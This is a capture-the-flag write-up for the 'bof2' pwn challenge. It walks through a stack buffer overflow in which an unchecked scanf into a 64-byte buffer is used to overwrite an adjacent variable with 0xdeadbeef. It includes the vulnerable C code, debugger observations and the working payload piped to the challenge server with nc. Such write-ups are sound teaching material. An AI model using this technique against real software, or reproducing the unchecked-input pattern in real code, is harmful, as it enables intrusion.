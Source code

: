 # bof2
**Category:** Pwn

**Points:** 20

**Description:**

Author: kablaa

nc ctf.hackucf.org 9001

> **Files:** bof2, bof2.c, libpwnableharness32.so

## Write-up
This is a buffer overflow challenge, and the code file was provided.

Looking at the code the important function seemed to be `handle_connection()` as it contains a `scanf()` call into a buffer of 64 chars:
```c
void handle_connection(int sock) {
	int correct = 0;
	char bof[64];
	
	scanf("%s", bof);
	
	if(correct != 0xdeadbeef) {
		puts("you suck!");
		exit(0);
	}
	
	win();
}
```

When the program runs it waits for input at this point, and overflowing the buffer may overflow into the `correct` variable.

To test this I first created a file with 64 A characters in. This allows us to see how the stack is organised.
```
> python -c "print('A'*64)" > inp_file.txt
```

First, for this run of the code, we can see that our `correct` variable ends up at 0xffbab10c (I guessed this was the `correct` variable as it is set to 0):

![Location of 'correct' variable](correct_location.png)

We can see this area on the stack (highlighted in yellow):

!['Correct' variable on the stack](stack1.png)

If we move the debugger on one step, we can see this area get zeroed:

!['Correct' variable set to zero](stack2.png)

We can also see that our `bof` array is at 0xffbab0cc (must be `bof` as it's being set up for use in the `scanf()`):

![Location of 'bof' array](bof_location.png)

If we send our 64 A characters in, we can clearly see this array on the stack:

![bof array filled with As](stack3.png)

We can also see that it sits right up against our `correct` variable, so we should be able to set `correct` to 0xdeadbeef by sending those characters after our 64 A characters (we need to reverse the order of the bytes because - little endian). Our input file is now set with:
```
> python -c "print('A'*64 + '\xef\xbe\xad\xde')" > inp_file.txt
```
> **Note:** The above works in Python2. As Python3 uses Unicode for the basic string, and `print()` expects Unicode, for Python3 use:  
  `python3 -c "import sys; sys.stdout.buffer.write(b'A'*64 + b'\xef\xbe\xad\xde')" > inp_file.txt`

If we run this and look at the stack we can now see our A characters followed by our `deadbeef`:

![As and deadbeef](stack4.png)

Tracing through, we end up in the `win()` function. So now it's time to try it on the server:
```
> python -c "print('A'*64 + '\xef\xbe\xad\xde')" | nc ctf.hackucf.org 9001
```
> **Note:** The above works in Python2. As Python3 uses Unicode for the basic string, and `print()` expects Unicode, for Python3 use:  
  `python3 -c "import sys; sys.stdout.buffer.write(b'A'*64 + b'\xef\xbe\xad\xde')" | nc ctf.hackucf.org 9001`

This worked, and gave me the flag.

